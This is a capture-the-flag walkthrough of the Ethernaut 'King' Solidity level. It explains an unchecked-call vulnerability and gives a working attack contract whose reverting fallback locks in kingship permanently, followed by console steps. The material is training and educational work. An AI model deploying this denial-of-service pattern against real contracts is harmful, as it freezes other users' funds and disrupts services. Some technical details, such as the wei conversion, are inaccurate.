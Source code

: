 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

Challenge's message.

>The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
Such a fun game. Your goal is to break it.
When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


At the beginning of the contract, there are defined variables such as king, owner and prize. Also, these variables are assigned when the contract is created in the payable constructor. After the definition of king and king's prize, there is a specific function called ``receive()``that works to remand the new king's prize to the ex-king address and update the new king address and king's prize when someone is the owner or sends more than the king's ether to the contract. And finally, there is a function which returns us to current king address.

As with every challenge, this contract has some potential issues. One of these issues like forgot to check the external process status. Here we go...

# Subverting

Before talking about my attack contract, I want to explain some topics. If you know about the vulnerability of **uncheck calls returns value**, you would skip this part.

### Calls In Solidity 

There are a number of ways of performing external calls in Solidity. Sending ether to external accounts is commonly performed via the ``transfer`` method. However, the ``send`` function can also be used, and for more versatile external calls the ``call`` **opcode** can be directly employed in Solidity. You can start an external calls in the contract with send ether to other contracts by

  - ``transfer`` :  (2300 gas, throws error)
  - ``send`` : (2300 gas, returns bool)
  - ``call`` : (forward all gas or set gas, returns bool)

this methods. Here we can see that when we use to send or call to send ether or perform any transactions, it returns a boolean value i.e. true or false. Unless you check this return value, you will face something critical vulnerability.

### Security Issue : Uncheck Calls Returns Value

 The ``call`` and ``send`` functions return a boolean indicating whether the call succeeded or failed. As a result, if the call return value is not checked, execution will resume even if the called contract throws an exception. If the call fails accidentally or an attacker forces the call to fail, this may cause unexpected behavior in the subsequent program logic. Here is a contract which too has an example of this problem.
 
 ```solidity
 
contract Lotto {
    bool public payedOut = false;
    address public winner;
    uint public winAmount;

    // ... extra functionality here

    function sendToWinner() public {
        require(!payedOut);
        winner.send(winAmount);
        payedOut = true;
    }

    function withdrawLeftOver() public {
        require(payedOut);
        msg.sender.send(this.balance);
    }
}
 
 ```
 This represents a Lotto-like contract, where a ``winner`` receives ``winAmount`` of ether, which typically leaves a little left over for anyone to withdraw.

The vulnerability exists on sendToWinner() function, where a send is used without checking the response. In this example, a winner whose transaction fails (either by running out of gas or by being a contract that intentionally throws in the fallback function) allows ``payedOut`` to be set to ``true`` regardless of whether ether was sent or not. In this case, **anyone can withdraw the winner’s winnings via the withdrawLeftOver function**.

## Attack Contract

Here is my attack contract.

```solidity
pragma solidity ^0.8.0;

import './King.sol';

contract Attack{

    King target;

    constructor(address payable _target) payable{
        target = King(_target);
        address(target).call{value: msg.value}("");
    }

    fallback()external{
        revert("Hack ponzi");
    }
}
```

First thing first is as always solidity version and import our target contract's file into attack contract. After that, get the instance of target contract and call it with sending more than king's prize in the constructor. When the ``call`` method works, the target contract will send ether to ex king's address and updated the attack contract as new king. Also, when someone wants to be a new king of target contract, he/she won't be a new king because of our fallback() function will have blocked this process. 

To explain more clearly, if the target contract change to kingship as different from attack contract, it will send ether to this contract but in the fallback() will have reverted to transaction. In this way, we'll stay king of the target contract every time.

### Attack Senario

Check the king's prize.

```shell

await contract.prize()
i {negative: 0, words: Array(3), length: 2, red: null}
length
: 
2
negative
: 
0
red
: 
null
words
: 
(3) [13008896, 14901161, boş]
[[Prototype]]
: 
Object
```
The king's prize is 13008896 wei. Let's convert to ether form.

```shell
await web3.utils.fromWei('13008896', 'ether')
'0.000000000013008896'
```
When we deploy the attack contract, we must send higher than this price.



**_by wasny0ps_**

